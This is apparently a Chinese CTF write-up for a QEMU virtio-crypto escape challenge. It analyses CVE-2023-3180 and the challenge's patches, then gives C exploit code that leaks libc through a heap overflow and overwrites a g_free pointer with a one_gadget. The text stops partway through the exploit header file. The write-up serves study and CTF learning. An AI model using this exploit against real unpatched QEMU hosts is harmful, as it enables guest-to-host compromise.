

# 题目分析

题目用的qemu版本为8.0.0-rc2，存在CVE-2023-3180堆溢出漏洞。

## CVE-2023-3180

Vulnerability Details : [CVE-2023-3180](https://www.cvedetails.com/cve/CVE-2023-3180/)

> A flaw was found in the QEMU virtual crypto device while handling data encryption/decryption requests in virtio_crypto_handle_sym_req. There is no check for the value of `src_len` and `dst_len` in virtio_crypto_sym_op_helper, potentially leading to a heap buffer overflow when the two values differ.

影响版本：< Qemu v8.1.0

Patch：[virtio-crypto: verify src&dst buffer length for sym request](https://gitee.com/Artoria_Hotaru/qemu/commit/9d38a8434721a6479fe03fb5afb150ca793d3980)



在处理`VIRTIO_CRYPTO_SYM_OP_CIPHER`或`VIRTIO_CRYPTO_SYM_OP_ALGORITHM_CHAINING`类型的加解密时，调用`virtio_crypto_sym_op_helper()`函数中初始化`CryptoDevBackendSymOpInfo *op_info`结构体时，未检查`op_info->src_len`是否等于`op_info->dst_len`，并令`op_info->dst = op_info->data + op_info->iv_len + op_info->aad_len + op_info->src_len`：

```c
/* qemu/v8.0.0/source/hw/virtio/virtio-crypto.c#L598 */
static CryptoDevBackendSymOpInfo *
virtio_crypto_sym_op_helper(VirtIODevice *vdev,
           struct virtio_crypto_cipher_para *cipher_para,
           struct virtio_crypto_alg_chain_data_para *alg_chain_para,
           struct iovec *iov, unsigned int out_num)
{
    VirtIOCrypto *vcrypto = VIRTIO_CRYPTO(vdev);
    CryptoDevBackendSymOpInfo *op_info;
    uint32_t src_len = 0, dst_len = 0;
    uint32_t iv_len = 0;
    uint32_t aad_len = 0, hash_result_len = 0;
    uint32_t hash_start_src_offset = 0, len_to_hash = 0;
    uint32_t cipher_start_src_offset = 0, len_to_cipher = 0;

    uint64_t max_len, curr_size = 0;
    size_t s;

    /* Plain cipher */
    if (cipher_para) {
        iv_len = ldl_le_p(&cipher_para->iv_len);
        src_len = ldl_le_p(&cipher_para->src_data_len);
        dst_len = ldl_le_p(&cipher_para->dst_data_len);
    } else if (alg_chain_para) { /* Algorithm chain */
        iv_len = ldl_le_p(&alg_chain_para->iv_len);
        src_len = ldl_le_p(&alg_chain_para->src_data_len);
        dst_len = ldl_le_p(&alg_chain_para->dst_data_len);

        aad_len = ldl_le_p(&alg_chain_para->aad_len);
        hash_result_len = ldl_le_p(&alg_chain_para->hash_result_len);
        hash_start_src_offset = ldl_le_p(
                         &alg_chain_para->hash_start_src_offset);
        cipher_start_src_offset = ldl_le_p(
                         &alg_chain_para->cipher_start_src_offset);
        len_to_cipher = ldl_le_p(&alg_chain_para->len_to_cipher);
        len_to_hash = ldl_le_p(&alg_chain_para->len_to_hash);
    } else {
        return NULL;
    }

    max_len = (uint64_t)iv_len + aad_len + src_len + dst_len + hash_result_len;
    if (unlikely(max_len > vcrypto->conf.max_size)) {
        virtio_error(vdev, "virtio-crypto too big length");
        return NULL;
    }

    op_info = g_malloc0(sizeof(CryptoDevBackendSymOpInfo) + max_len); // op_info结构体data[]大小根据iv、aad、src、dst等长度确定
    op_info->iv_len = iv_len;
    op_info->src_len = src_len;
    op_info->dst_len = dst_len;
    op_info->aad_len = aad_len;
    op_info->digest_result_len = hash_result_len;
    op_info->hash_start_src_offset = hash_start_src_offset;
    op_info->len_to_hash = len_to_hash;
    op_info->cipher_start_src_offset = cipher_start_src_offset;
    op_info->len_to_cipher = len_to_cipher;
    /* Handle the initilization vector */
    if (op_info->iv_len > 0) {
        DPRINTF("iv_len=%" PRIu32 "\n", op_info->iv_len);
        op_info->iv = op_info->data + curr_size;

        s = iov_to_buf(iov, out_num, 0, op_info->iv, op_info->iv_len);
        if (unlikely(s != op_info->iv_len)) {
            virtio_error(vdev, "virtio-crypto iv incorrect");
            goto err;
        }
        iov_discard_front(&iov, &out_num, op_info->iv_len);
        curr_size += op_info->iv_len;
    }

    /* Handle additional authentication data if exists */
    if (op_info->aad_len > 0) {
        DPRINTF("aad_len=%" PRIu32 "\n", op_info->aad_len);
        op_info->aad_data = op_info->data + curr_size;

        s = iov_to_buf(iov, out_num, 0, op_info->aad_data, op_info->aad_len);
        if (unlikely(s != op_info->aad_len)) {
            virtio_error(vdev, "virtio-crypto additional auth data incorrect");
            goto err;
        }
        iov_discard_front(&iov, &out_num, op_info->aad_len);

        curr_size += op_info->aad_len;
    }

    /* Handle the source data */
    if (op_info->src_len > 0) {
        DPRINTF("src_len=%" PRIu32 "\n", op_info->src_len);
        op_info->src = op_info->data + curr_size;

        s = iov_to_buf(iov, out_num, 0, op_info->src, op_info->src_len);
        if (unlikely(s != op_info->src_len)) {
            virtio_error(vdev, "virtio-crypto source data incorrect");
            goto err;
        }
        iov_discard_front(&iov, &out_num, op_info->src_len);

        curr_size += op_info->src_len;
    }

    /* Handle the destination data */
    op_info->dst = op_info->data + curr_size; // op_info->dst = op_info->data + iv_len + aad_len + src_len
    curr_size += op_info->dst_len;

    DPRINTF("dst_len=%" PRIu32 "\n", op_info->dst_len);

    /* Handle the hash digest result */
    if (hash_result_len > 0) {
        DPRINTF("hash_result_len=%" PRIu32 "\n", hash_result_len);
        op_info->digest_result = op_info->data + curr_size;
    }

    return op_info;

err:
    g_free(op_info);
    return NULL;
}
```

`CryptoDevBackendSymOpInfo`结构体定义如下：

```c
/* qemu/v8.0.0/source/include/sysemu/cryptodev.h */
typedef struct CryptoDevBackendSymOpInfo {
    uint32_t aad_len;
    uint32_t iv_len;
    uint32_t src_len;
    uint32_t dst_len;
    uint32_t digest_result_len;
    uint32_t hash_start_src_offset;
    uint32_t cipher_start_src_offset;
    uint32_t len_to_hash;
    uint32_t len_to_cipher;
    uint8_t op_type;
    uint8_t *iv;
    uint8_t *src;
    uint8_t *dst;
    uint8_t *aad_data;
    uint8_t *digest_result;
    uint8_t data[];
} CryptoDevBackendSymOpInfo;
```

加密时，由于对称加密输入输出长度相同，故当`src_len>dst_len`时，在加密函数中就会造成堆溢出，调用流程如下：

```text
...
virtio_crypto_dataq_bh
 -> virtio_crypto_handle_dataq
   -> virtio_crypto_handle_request
     -> virtio_crypto_handle_sym_req # 解析参数
       -> virtio_crypto_sym_op_helper
     -> cryptodev_backend_crypto_operation # 加密流程
       -> cryptodev_backend_operation
         -> cryptodev_builtin_operation
           -> cryptodev_builtin_sym_operation
             -> (drv->cipher_encrypt/cipher_decrypt) qcrypto_cipher_encrypt/qcrypto_cipher_decrypt # overlow
           -> (op_info->cb) virtio_crypto_req_complete
```

在`virtio_crypto_sym_input_data_helper()`中向`sym_op_info->dst`处拷贝`sym_op_info->src_len`长度的内容，若`sym_op_info->dst_len < sym_op_info->src_len`则会造成越界读：

```c
/* qemu/v8.0.0/source/hw/virtio/virtio-crypto.c#L503 */
static void
virtio_crypto_sym_input_data_helper(VirtIODevice *vdev,
                VirtIOCryptoReq *req,
                uint32_t status,
                CryptoDevBackendSymOpInfo *sym_op_info)
{
    size_t s, len;
    struct iovec *in_iov = req->in_iov;

    if (status != VIRTIO_CRYPTO_OK) {
        return;
    }

    len = sym_op_info->src_len; // 1. if sym_op_info->src_len > sym_op_info->dst_len
    /* Save the cipher result */
    s = iov_from_buf(in_iov, req->in_num, 0, sym_op_info->dst, len); // 2. overflow read
    if (s != len) {
        virtio_error(vdev, "virtio-crypto dest data incorrect");
        return;
    }
    ...
}
```

> [!note]
>
> 但这里的越界读其实不能用于信息泄露。因为加解密调用成功，这部分已经是加解密后的内容了；如果加解密调用不成功，那么会在`status != VIRTIO_CRYPTO_OK`的检查那里直接返回。所以无论如何都不可能泄露原本堆上的信息。

## 逆向分析

根据逆向比对发现了几处patch：

1. 去掉了`virtio_crypto_sym_input_data_helper`函数中`status != VIRTIO_CRYPTO_OK`的检查，从而在加解密失败时仍能够通过`iov_from_buf`完成泄露

   ```c
   /* hw/virtio/virtio-crypto.c */
   
   static void 
   virtio_crypto_sym_input_data_helper(VirtIODevice *vdev,
                   VirtIOCryptoReq *req,
                   uint32_t status,
                   CryptoDevBackendSymOpInfo *sym_op_info)
   {
       size_t s, len;
       struct iovec *in_iov = req->in_iov;
   
   //    if (status != VIRTIO_CRYPTO_OK) {
   //        return;
   //    }
   
       len = sym_op_info->src_len;
       /* Save the cipher result */
       s = iov_from_buf(in_iov, req->in_num, 0, sym_op_info->dst, len); //leak
       ...
   }
   ```

2. 在`virtio_crypto_sym_op_helper`函数中，在`op_info->data`之后放置了一个`g_free`指针，并在`virtio_crypto_free_request`函数中调用该指针释放`op_info`

   ```c
   /* hw/virtio/virtio-crypto.c */
   
   static CryptoDevBackendSymOpInfo *
   virtio_crypto_sym_op_helper(VirtIODevice *vdev,
              struct virtio_crypto_cipher_para *cipher_para,
              struct virtio_crypto_alg_chain_data_para *alg_chain_para,
              struct iovec *iov, unsigned int out_num)
   {
       ...
       *(uint64_t *)(op_info->data + curr_size) = g_free;
       ...
   }
   
   static void virtio_crypto_free_request(VirtIOCryptoReq *req)
   {
       if (!req) {
           return;
       }
   
       if (req->flags == QCRYPTODEV_BACKEND_ALG_SYM) {
           size_t max_len;
           CryptoDevBackendSymOpInfo *op_info = req->op_info.u.sym_op_info;
   
           max_len = op_info->iv_len +
                     op_info->aad_len +
                     op_info->src_len +
                     op_info->dst_len +
                     op_info->digest_result_len;
   
           /* Zeroize and free request data structure */
           memset(op_info, 0, sizeof(*op_info) + max_len);
           ((void (*)(void *))(*(uint64_t *)(op_info->data + max_len)))(op_info);
   }
   ```

综上，我们可以得到基本利用思路：

1. 通过堆溢出泄露`g_free`指针，得到libc基址
2. 通过堆溢出覆盖`g_free`指针为one_gadget，控IP

# 利用过程

## leak

由于加解密成功就会往`sym_op_info->dst`拷贝结果，溢出后会覆盖`g_free`指针，但我们想要完成泄露就必须构造错误的请求，使指针不被覆盖的情况下还能调用`virtio_crypto_req_complete`将结果拷贝回用户。

于此同时，我们还要保证在`virtio_crypto_handle_request`函数中能够正常调用`virtio_crypto_handle_sym_req -> virtio_crypto_sym_op_helper`完成`sym_op_info`结构体的初始化。

综合上述两点，错误只能埋在`cryptodev_backend_crypto_operation`往后的流程中了。

最终发现在`cryptodev_builtin_operation`中，如果判断`op_info->session_id <= 0xFF && builtin->sessions[op_info->session_id]`为false，则不会继续加密流程直接返回`-VIRTIO_CRYPTO_INVSESS (-4)`。函数返回`virtio_crypto_handle_request`之后将调用`virtio_crypto_req_complete`，从而完成泄露。

```c
void leak() {
    uint8_t *src = (uint8_t *)calloc(0x100, sizeof(uint8_t));
    uint8_t *dst = NULL;

    reset_device(VIRTIO_CRYPTO_OP_ENCRYPT);

    dst = cipher_op(0xaa, 0, VIRTIO_CRYPTO_CIPHER_ENCRYPT, NULL, 0, src, 0x20, 0x10); // 将session_id设为0xaa非法值，避免结果覆盖g_free指针
    hex_dump64(dst, 0x20);

    uint64_t libc_base = *(uint64_t *)(dst+0x10) - 0x562d50;
    uint64_t ogg = libc_base + 0xebce2;
    printf("[+] libc_base: %p\n", (void *)libc_base);

    memset(src, 0, 0x100);
    memcpy(src, dst, 0x20);
    *(uint64_t *)(src+0x10) = ogg; // 将g_free指针对应位置填入one_gadget
    hex_dump64(src, 0x20);

    dst = cipher_op(0, 1, VIRTIO_CRYPTO_CIPHER_ENCRYPT, NULL, 0, src, 0x20, 0x20);
    hex_dump64(dst, 0x20);

    int fd = -1;
    fd = open("/tmp/payload", O_RDWR|O_CREAT|O_TRUNC, S_IRUSR|S_IWUSR);
    write(fd, dst, 0x20);
    close(fd);
}
```

泄露完成之后，我们将后续需要用到的payload加密后保存到本地。

## exploit

之后将上一步中准备好的payload读入内存，将payload解密并溢出覆盖`g_free`指针，最终在`virtio_crypto_free_request`函数中调用one_gadget。

```c
void exploit() {
    uint8_t *src = (uint8_t *)calloc(0x100, sizeof(uint8_t));

    reset_device(VIRTIO_CRYPTO_OP_DECRYPT);

    // hijack g_free
    int fd = -1;
    fd = open("/tmp/payload", O_RDWR);
    read(fd, src, 0x20);
    close(fd);

    cipher_op(1, 0, VIRTIO_CRYPTO_CIPHER_DECRYPT, NULL, 0, src, 0x20, 0x10);
}
```

> [!note]
>
> 这里之所以用one_gadget是因为参数为`sym_op_info`，结构体的第一个成员为`aad_len`，只有使用`VIRTIO_CRYPTO_SYM_OP_ALGORITHM_CHAINING`算法时才会初始化该成员，且没有别的方法将命令字符串写入结构体开头，故替换成system的话无法进行利用。

## virtio-crypto session创建和切换问题

之所以将泄露和劫持分作两个步骤，需要运行两次程序，是因为遇到了两个会话上的问题，卡了我很久。

1. **无法在设备初始化完成后处理新的会话请求**
   一开始尝试在设备初始化完成之后再往`ctrlq`写创建会话请求，看文档里说`dataq`和`ctrlq`使用的是同一个notify  mmio，但实际操作过程中发现，无论都没办法通知到`ctrlq`处理创建会话请求，只有在初始化设备发送`VIRTIO_CONFIG_S_DRIVER_OK`前在`ctrlq`中写请求，发送`VIRTIO_CONFIG_S_DRIVER_OK`之后就会自动处理会话请求。具体原因不明。
2. **无法同时处理多个会话请求**
   利用中分别需要用加密和解密会话去完成，因此在设备初始化时准备了两个请求分别创建加解密会话。但调试过程中发现，哪怕创建会话成功，调用对应会话id进行操作时，仍是创建的第一个会话的操作（如加密会话id=0，解密会话id=1，调用id1的会话时仍是加密操作），在操作前重置设备也不行，不知道是我哪里写的不对还是`dataq`本身的问题，反正最后将加解密分开两次运行程序才解决了这个问题。

此外，**也许还可以用`VIRTIO_CRYPTO_F_CIPHER_STATELESS_MODE`这个feature去解决上述问题**，但由于题目中使用`VIRTIO_CRYPTO_F_CIPHER_STATELESS_MODE`可能会不满足泄露所需的失败返回条件，故没有深究。这里留一个初始化和调用的demo，后续有机会再研究叭。

头文件：

```c {hide=true}
/* Feature bits */
#define VIRTIO_CRYPTO_F_REVISION_1              0
#define VIRTIO_CRYPTO_F_CIPHER_STATELESS_MODE   1

/* CIPHER service */
#define VIRTIO_CRYPTO_SERVICE_CIPHER 0
/* HASH service */
#define VIRTIO_CRYPTO_SERVICE_HASH   1
/* MAC (Message Authentication Codes) service */
#define VIRTIO_CRYPTO_SERVICE_MAC    2
/* AEAD (Authenticated Encryption with Associated Data) service */
#define VIRTIO_CRYPTO_SERVICE_AEAD   3

// algo
#define VIRTIO_CRYPTO_NO_CIPHER                 0
#define VIRTIO_CRYPTO_CIPHER_ARC4               1
#define VIRTIO_CRYPTO_CIPHER_AES_ECB            2
#define VIRTIO_CRYPTO_CIPHER_AES_CBC            3
#define VIRTIO_CRYPTO_CIPHER_AES_CTR            4
#define VIRTIO_CRYPTO_CIPHER_DES_ECB            5
#define VIRTIO_CRYPTO_CIPHER_DES_CBC            6
#define VIRTIO_CRYPTO_CIPHER_3DES_ECB           7
#define VIRTIO_CRYPTO_CIPHER_3DES_CBC           8
#define VIRTIO_CRYPTO_CIPHER_3DES_CTR           9
#define VIRTIO_CRYPTO_CIPHER_KASUMI_F8          10
#define VIRTIO_CRYPTO_CIPHER_SNOW3G_UEA2        11
#define VIRTIO_CRYPTO_CIPHER_AES_F8             12
#define VIRTIO_CRYPTO_CIPHER_AES_XTS            13
#define VIRTIO_CRYPTO_CIPHER_ZUC_EEA3           14

// key_len
#define AES_KEYSIZE_128 16
#define AES_KEYSIZE_192 24
#define AES_KEYSIZE_256 32
#define AES_KEYSIZE_128_XTS AES_KEYSIZE_256
#define AES_KEYSIZE_256_XTS 64

struct virtio_crypto_config {
    le32 status;
    le32 max_dataqueues;
    le32 crypto_services;
    /* Detailed algorithms mask */
    le32 cipher_algo_l;
    le32 cipher_algo_h;
    le32 hash_algo;
    le32 mac_algo_l;
    le32 mac_algo_h;
    le32 aead_algo;
    /* Maximum length of cipher key in bytes */
    le32 max_cipher_key_len;
    /* Maximum length of authenticated key in bytes */
    le32 max_auth_key_len;
    le32 reserved;
    /* Maximum size of each crypto request’s content in bytes */
    le64 max_size;
};

// Currently, only one status bit is defined: VIRTIO_CRYPTO_S_HW_READY
// set indicates that the device is ready to process requests,
// this bit is read-only for the driver
#define VIRTIO_CRYPTO_S_HW_READY  (1 << 0)

enum VIRTIO_CRYPTO_STATUS {
    VIRTIO_CRYPTO_OK = 0,
    VIRTIO_CRYPTO_ERR = 1,
    VIRTIO_CRYPTO_BADMSG = 2,
    VIRTIO_CRYPTO_NOTSUPP = 3,
    VIRTIO_CRYPTO_INVSESS = 4,
    VIRTIO_CRYPTO_NOSPC = 5,
    VIRTIO_CRYPTO_MAX
};

#define VIRTIO_CRYPTO_OPCODE(service, op)   (((service) << 8) | (op))

struct virtio_crypto_op_header {
#define VIRTIO_CRYPTO_CIPHER_ENCRYPT \
    VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_CIPHER, 0x00)
#define VIRTIO_CRYPTO_CIPHER_DECRYPT \
    VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_CIPHER, 0x01)
#define VIRTIO_CRYPTO_HASH \
    VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_HASH, 0x00)
#define VIRTIO_CRYPTO_MAC \
    VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_MAC, 0x00)
#define VIRTIO_CRYPTO_AEAD_ENCRYPT \
    VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_AEAD, 0x00)
#define VIRTIO_CRYPTO_AEAD_DECRYPT \
    VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_AEAD, 0x01)
    le32 opcode;
    /* algo should be service-specific algorithms */
    le32 algo;
    le64 session_id;
#define VIRTIO_CRYPTO_FLAG_SESSION_MODE 1
    /* control flag to control the request */
    le32 flag;
    le32 padding;
};

struct virtio_crypto_cipher_data_flf_stateless {
    struct {
        /* See VIRTIO_CRYPTO_CIPHER* above */
        le32 algo;
        /* length of key */
        le32 key_len;
#define VIRTIO_CRYPTO_OP_ENCRYPT  1
#define VIRTIO_CRYPTO_OP_DECRYPT  2
        /* encryption or decryption */
        le32 op;
    } sess_para;

    /*
     * Byte Length of valid IV/Counter data pointed to by the below iv data.
     */
    le32 iv_len;
    /* length of source data */
    le32 src_data_len;
    /* length of destination data */
    le32 dst_data_len;
};

/* No operation */
#define VIRTIO_CRYPTO_SYM_OP_NONE  0
/* Cipher only operation on the data */
#define VIRTIO_CRYPTO_SYM_OP_CIPHER  1
/* Chain any cipher with any hash or mac operation. The order
   depends on the value of alg_chain_order param */
#define VIRTIO_CRYPTO_SYM_OP_ALGORITHM_CHAINING  2

struct virtio_crypto_sym_data_flf_stateless {
    /* Device read only portion */
#define VIRTIO_CRYPTO_SYM_DATE_REQ_HDR_STATELESS_SIZE    72
    union {
        struct virtio_crypto_cipher_data_flf_stateless cypher_stl;
        u8 padding[VIRTIO_CRYPTO_SYM_DATE_REQ_HDR_STATELESS_SIZE];
    } op_type_flf;

    /* Device write only portion */
    /* See above VIRTIO_CRYPTO_SYM_OP_* */
    le32 op_type;
};

//struct virtio_crypto_cipher_data_vlf_stateless {
//    /* Device read only portion */
//
//    /* The cipher key */
//    u8 cipher_key[key_len];
//
//    /* Initialization Vector or Counter data. */
//    u8 iv[iv_len];
//    /* Source data */
//    u8 src_data[src_data_len];
//
//    /* Device write only portion */
//    /* Destination data */
//    u8 dst_data[dst_data_len];
//};
//
//struct virtio_crypto_sym_data_vlf_stateless {
//    u8 op_type_vlf[sym_para_len];
//};

struct virtio_crypto_inhdr {
    u8 status;
};

struct virtio_crypto_op_data_req {
    /* Device read only portion */

    struct virtio_crypto_op_header header;

    struct virtio_crypto_sym_data_flf_stateless op_flf;

    /* Device read && write portion */
    /* variable length fields, opcode specific */
    u8 op_vlf[];

    /* Device write only portion */
    //struct virtio_crypto_inhdr inhdr;
};
```

demo：

```c {hide=true}
void reset_device(uint32_t sess_op) {
    /* reset device */
    uint8_t device_status = 0;

    // 1. qvirtio_reset
    mmio_write8(&common_cfg->device_status, device_status);
    // 2. qvirtio_set_acknowledge
    device_status |= VIRTIO_CONFIG_S_ACKNOWLEDGE;
    mmio_write8(&common_cfg->device_status, device_status);
    // 3. qvirtio_set_driver
    device_status |= VIRTIO_CONFIG_S_DRIVER;
    mmio_write8(&common_cfg->device_status, device_status);
    // 4. qvirtio_set_features
    mmio_write32(&common_cfg->driver_feature_select, VIRTIO_CRYPTO_F_REVISION_1);
    mmio_write32(&common_cfg->driver_feature, 1);
    mmio_write32(&common_cfg->driver_feature_select, VIRTIO_CRYPTO_F_CIPHER_STATELESS_MODE);
    mmio_write32(&common_cfg->driver_feature, 1);
    // 5. qvirtio_set_features_ok
    device_status |= VIRTIO_CONFIG_S_FEATURES_OK;
    mmio_write8(&common_cfg->device_status, device_status);

    assert(mmio_read8(&common_cfg->device_status) & VIRTIO_CONFIG_S_FEATURES_OK);

    // 6. init queue
    mmio_write16(&common_cfg->queue_select, 0); // dataq
    mmio_write16(&common_cfg->queue_size, VIRTIO_QUEUE_SIZE);
    mmio_write32(&common_cfg->queue_desc, dataq_gpa);
    mmio_write32(&common_cfg->queue_driver, dataq_gpa + 0x100);
    mmio_write32(&common_cfg->queue_device, dataq_gpa + 0x200);
    mmio_write16(&common_cfg->queue_enable, 1);

    mmio_write16(&common_cfg->queue_select, crypto_cfg->max_dataqueues); // controlq
    mmio_write16(&common_cfg->queue_size, VIRTIO_QUEUE_SIZE);
    mmio_write32(&common_cfg->queue_desc, ctrlq_gpa);
    mmio_write32(&common_cfg->queue_driver, ctrlq_gpa + 0x100);
    mmio_write32(&common_cfg->queue_device, ctrlq_gpa + 0x200);
    mmio_write16(&common_cfg->queue_enable, 1);

    // 7. qvirtio_set_driver_ok
    device_status |= VIRTIO_CONFIG_S_DRIVER_OK;
    mmio_write8(&common_cfg->device_status, device_status);
}

uint8_t* cipher_stateless(uint8_t is_enc, uint16_t avail_idx, uint8_t *iv, uint32_t iv_len,
        uint8_t *src, uint32_t src_len, uint32_t dst_len) {
    memset((uint8_t *)dma_data, 0, 0x1000);

    struct virtio_crypto_op_data_req *data_req = (struct virtio_crypto_op_data_req *)(dma_data+0x100);
    data_req->header.opcode = VIRTIO_CRYPTO_CIPHER_ENCRYPT;
    data_req->header.flag = 0;
    data_req->op_flf.op_type = VIRTIO_CRYPTO_SYM_OP_CIPHER;
    data_req->op_flf.op_type_flf.cypher_stl.sess_para.algo = VIRTIO_CRYPTO_CIPHER_AES_ECB;
    data_req->op_flf.op_type_flf.cypher_stl.sess_para.key_len = AES_KEYSIZE_128;
    if (is_enc) data_req->op_flf.op_type_flf.cypher_stl.sess_para.op = VIRTIO_CRYPTO_OP_ENCRYPT;
    else        data_req->op_flf.op_type_flf.cypher_stl.sess_para.op = VIRTIO_CRYPTO_OP_DECRYPT;
    data_req->op_flf.op_type_flf.cypher_stl.iv_len = iv_len;
    data_req->op_flf.op_type_flf.cypher_stl.src_data_len = src_len;
    data_req->op_flf.op_type_flf.cypher_stl.dst_data_len = dst_len;
    memset(&data_req->op_vlf, 0, AES_KEYSIZE_128); // op_vlf.cipher_key[0x10]

    queue_desc = (struct virtq_desc *)dataq;
    queue_avail = (struct virtq_avail *)((uint8_t *)dataq + 0x100);
    queue_used = (struct virtq_used *)((uint8_t *)dataq + 0x200);

    uint64_t p = gva_to_gpa(data_req);
    size_t idx = 0;
    queue_desc[idx].addr = p;
    queue_desc[idx].len = sizeof(struct virtio_crypto_op_header);
    queue_desc[idx].flags = VIRTQ_DESC_F_NEXT;
    queue_desc[idx].next = idx+1;
    p += sizeof(struct virtio_crypto_op_header);
    idx++;

    queue_desc[idx].addr = p;
    queue_desc[idx].len = sizeof(struct virtio_crypto_sym_data_flf_stateless);
    queue_desc[idx].flags = VIRTQ_DESC_F_NEXT;
    queue_desc[idx].next = idx+1;
    p += sizeof(struct virtio_crypto_sym_data_flf_stateless);
    idx++;

    queue_desc[idx].addr = p;
    queue_desc[idx].len = AES_KEYSIZE_128;
    queue_desc[idx].flags = VIRTQ_DESC_F_NEXT;
    queue_desc[idx].next = idx+1;
    p += AES_KEYSIZE_128;
    idx++;

    if (iv_len > 0) {
        memcpy(data_req->op_vlf + AES_KEYSIZE_128, iv, iv_len);
        queue_desc[idx].addr = p;
        queue_desc[idx].len = iv_len; // iv
        queue_desc[idx].flags = VIRTQ_DESC_F_NEXT;
        queue_desc[idx].next = idx+1;
        p += iv_len;
        idx++;
    }

    if (src_len > 0) {
        memcpy(data_req->op_vlf + AES_KEYSIZE_128 + iv_len, src, src_len);
        queue_desc[idx].addr = p;
        queue_desc[idx].len = src_len; // src_data
        queue_desc[idx].flags = VIRTQ_DESC_F_NEXT;
        queue_desc[idx].next = idx+1;
        p += src_len;
        idx++;
    }

    queue_desc[idx].addr = p;
    queue_desc[idx].len = src_len; // dst_data
    queue_desc[idx].flags = VIRTQ_DESC_F_NEXT|VIRTQ_DESC_F_WRITE;
    queue_desc[idx].next = idx+1;
    p += src_len;
    idx++;

    queue_desc[idx].addr = p;
    queue_desc[idx].len = sizeof(struct virtio_crypto_inhdr);
    queue_desc[idx].flags = VIRTQ_DESC_F_WRITE;
    queue_desc[idx].next = 0;

    queue_avail->ring[avail_idx] = 0;
    queue_avail->idx = avail_idx+1;
    queue_avail->flags = VIRTQ_AVAIL_F_NO_INTERRUPT;
    mb();

    assert(mmio_read8(&crypto_cfg->status) & VIRTIO_CRYPTO_S_HW_READY);
    notify_off = mmio_read16(&common_cfg->queue_notify_off);
    notify_offset = notify_cap->cap.offset + notify_off*notify_cap->notify_off_multiplier;

    mmio_write16((uint16_t *)(virtio_notify_mmio + notify_offset), 0);
    return data_req->op_vlf + AES_KEYSIZE_128 + iv_len + src_len;
}
```

# 完整Exp

## EasyVirtio_qemu.exp.h

```c
typedef uint8_t     u8;
typedef uint16_t    u16;
typedef uint32_t    u32;
typedef uint64_t    u64;
typedef uint16_t    le16;
typedef uint32_t    le32;
typedef uint64_t    le64;

/* Common configuration */
#define VIRTIO_PCI_CAP_COMMON_CFG        1
/* Notifications */
#define VIRTIO_PCI_CAP_NOTIFY_CFG        2
/* ISR Status */
#define VIRTIO_PCI_CAP_ISR_CFG           3
/* Device specific configuration */
#define VIRTIO_PCI_CAP_DEVICE_CFG        4
/* PCI configuration access */
#define VIRTIO_PCI_CAP_PCI_CFG           5

struct virtio_pci_cap {
        u8 cap_vndr;    /* Generic PCI field: PCI_CAP_ID_VNDR */
        u8 cap_next;    /* Generic PCI field: next ptr. */
        u8 cap_len;     /* Generic PCI field: capability length */
        u8 cfg_type;    /* Identifies the structure. */
        u8 bar;         /* Where to find it. */
        u8 padding[3];  /* Pad to full dword. */
        le32 offset;    /* Offset within bar. */
        le32 length;    /* Length of the structure, in bytes. */
};

struct virtio_pci_notify_cap {
    struct virtio_pci_cap cap;
    uint32_t notify_off_multiplier; /* Multiplier for queue_notify_off. */
};

struct virtio_pci_common_cfg {
        /* About the whole device. */
        le32 device_feature_select;     /* read-write */
        le32 device_feature;            /* read-only for driver */
        le32 driver_feature_select;     /* read-write */
        le32 driver_feature;            /* read-write */
        le16 msix_config;               /* read-write */
        le16 num_queues;                /* read-only for driver */
        u8 device_status;               /* read-write */
        u8 config_generation;           /* read-only for driver */

        /* About a specific virtqueue. */
        le16 queue_select;              /* read-write */
        le16 queue_size;                /* read-write */
        le16 queue_msix_vector;         /* read-write */
        le16 queue_enable;              /* read-write */
        le16 queue_notify_off;          /* read-only for driver */
        le64 queue_desc;                /* read-write */
        le64 queue_driver;              /* read-write */
        le64 queue_device;              /* read-write */
};

/* Status byte for guest to report progress, and synchronize features. */
/* We have seen device and processed generic fields (VIRTIO_CONFIG_F_VIRTIO) */
#define VIRTIO_CONFIG_S_ACKNOWLEDGE 1
/* We have found a driver for the device. */
#define VIRTIO_CONFIG_S_DRIVER      2
/* Driver has used its parts of the config, and is happy */
#define VIRTIO_CONFIG_S_DRIVER_OK   4
/* Driver has finished configuring features */
#define VIRTIO_CONFIG_S_FEATURES_OK 8
/* Device entered invalid state, driver must reset it */
#define VIRTIO_CONFIG_S_NEEDS_RESET 0x40
/* We've given up on this device. */
#define VIRTIO_CONFIG_S_FAILED      0x80

#define VIRTIO_QUEUE_SIZE           0x10

struct virtq_desc {
        /* Address (guest-physical). */
        le64 addr;
        /* Length. */
        le32 len;

/* This marks a buffer as continuing via the next field. */
#define VIRTQ_DESC_F_NEXT   1
/* This marks a buffer as device write-only (otherwise device read-only). */
#define VIRTQ_DESC_F_WRITE     2
/* This means the buffer contains a list of buffer descriptors. */
#define VIRTQ_DESC_F_INDIRECT   4
        /* The flags as indicated above. */
        le16 flags;
        /* Next field if flags & NEXT */
        le16 next;
};

/* The Guest uses this in avail->flags to advise the Host: don't interrupt me
 * when you consume a buffer.  It's unreliable, so it's simply an
 * optimization.  */
#define VRING_AVAIL_F_NO_INTERRUPT  1

struct virtq_avail {
#define VIRTQ_AVAIL_F_NO_INTERRUPT      1
        le16 flags;
        le16 idx;
        le16 ring[VIRTIO_QUEUE_SIZE];
        le16 used_event; /* Only if VIRTIO_F_EVENT_IDX */
};

/* CIPHER service */
#define VIRTIO_CRYPTO_SERVICE_CIPHER 0
/* HASH service */
#define VIRTIO_CRYPTO_SERVICE_HASH   1
/* MAC (Message Authentication Codes) service */
